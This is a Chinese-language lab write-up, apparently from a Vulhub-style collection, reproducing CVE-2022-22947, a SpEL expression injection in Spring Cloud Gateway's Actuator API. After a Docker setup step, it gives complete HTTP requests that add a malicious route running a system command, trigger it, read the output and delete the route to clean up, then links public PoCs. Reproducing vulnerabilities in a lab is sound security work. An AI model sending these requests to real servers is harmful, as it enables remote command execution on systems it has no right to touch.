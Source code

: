 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行 CVE-2022-22947

## 漏洞描述

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

## 环境搭建

Vulhub执行如下命令启动一个使用了Spring Cloud Gateway 3.1.0的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是example.com。

![image-20220303205830334](images/202203032058450.png)

## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

![image-20220303210101595](images/202203032101702.png)

然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20220303210310706](images/202203032103775.png)

发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20220303210439398](images/202203032104469.png)

最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

![image-20220303210537118](images/202203032105191.png)

## 开源POC

- Xray

- https://github.com/chaosec2021/CVE-2022-22947-POC


